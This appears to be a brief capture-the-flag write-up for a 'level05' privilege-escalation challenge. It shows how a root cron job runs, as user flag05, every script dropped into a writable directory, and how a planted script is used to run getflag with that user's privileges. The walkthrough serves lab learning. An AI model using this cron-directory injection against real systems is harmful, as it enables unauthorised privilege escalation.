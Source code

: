 ### Documentation
[Crontab](https://www.linuxtricks.fr/wiki/cron-et-crontab-le-planificateur-de-taches)

### External
```
BASH    cron_infection
```

### Process
1. You have new mail.

2. `cat /var/mail/level05`
    ```bash
   #crontab
   */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
   ```

3. `cat /usr/sbin/openarenaserver`
   ```bash
   #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done
    ```

4. `./send level05 cron_infection`

5. `./cron_infection /opt/openarenaserver/evil getflag /tmp/flag`

